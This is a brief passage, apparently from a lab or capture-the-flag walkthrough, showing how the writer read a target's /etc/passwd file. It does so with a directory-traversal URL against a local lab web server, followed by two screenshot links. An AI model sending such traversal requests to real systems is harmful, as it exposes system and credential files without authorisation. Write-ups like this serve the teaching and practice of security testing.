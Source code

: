    And then accessed `/passwd` file by inputting `http://192.168.64.23:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd`

   ![passwd1](../assets/img/dev/Screenshot%202024-07-09%20at%2015.44.51.png)

   ![passwd2](../assets/img/dev/Screenshot%202024-07-09%20at%2015.45.04.png)
